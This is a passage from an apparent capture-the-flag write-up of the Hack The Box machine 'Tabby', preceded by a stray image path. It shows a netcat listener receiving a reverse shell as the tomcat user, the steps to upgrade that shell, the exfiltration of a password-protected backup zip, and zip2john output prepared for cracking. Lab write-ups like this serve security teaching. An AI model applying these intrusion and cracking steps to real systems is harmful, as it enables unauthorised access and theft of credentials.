 shsjks

```text
zweilos@kali:~/htb/tabby$ nc -lvnp 12543
listening on [any] 12543 ...
connect to [10.10.14.216] from (UNKNOWN) [10.10.10.194] 53782
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ ^Z
[1]+  Stopped                 nc -lvnp 12543
zweilos@kali:~/htb/tabby$ stty raw -echo
zweilos@kali:~/htb/tabby$ nc -lvnp 12543

tomcat@tabby:/var/lib/tomcat9$ export TERM=xterm-256color
tomcat@tabby:/var/lib/tomcat9$ clear
```

I got annoyed at the lack of tab completion and other niceties so I tried backing out and starting my nc listener from bash, and was able to set raw stty with no problem

```text
tomcat@tabby:/var/www/html/files$ ls -la
total 36
drwxr-xr-x 4 ash  ash  4096 Jun 17 21:59 .
drwxr-xr-x 4 root root 4096 Jun 17 16:24 ..
-rw-r--r-- 1 ash  ash  8716 Jun 16 13:42 16162020_backup.zip
drwxr-xr-x 2 root root 4096 Jun 16 20:13 archive
drwxr-xr-x 2 root root 4096 Jun 16 20:13 revoked_certs
-rw-r--r-- 1 root root 6507 Jun 16 11:25 statement
```

in the /var/www/html/files folder I found some backup files

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ unzip 16162020_backup.zip 
Archive:  16162020_backup.zip
   creating: var/www/html/assets/
[16162020_backup.zip] var/www/html/favicon.ico password: 
password incorrect--reenter:
```

exfiltrated the backup zip to my machine and tried to open it, but it was password protected

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ zip2john 16162020_backup.zip > ziphash
16162020_backup.zip/var/www/html/assets/ is not encrypted!
ver 1.0 16162020_backup.zip/var/www/html/assets/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/favicon.ico PKZIP Encr: 2b chk, TS_chk, cmplen=338, decmplen=766, crc=282B6DE2
ver 1.0 16162020_backup.zip/var/www/html/files/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/index.php PKZIP Encr: 2b chk, TS_chk, cmplen=3255, decmplen=14793, crc=285CC4D6
ver 1.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/logo.png PKZIP Encr: 2b chk, TS_chk, cmplen=2906, decmplen=2894, crc=2F9F45F
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/news.php PKZIP Encr: 2b chk, TS_chk, cmplen=114, decmplen=123, crc=5C67F19E
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/Readme.txt PKZIP Encr: 2b chk, TS_chk, cmplen=805, decmplen=1574, crc=32DB9CE3
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
```
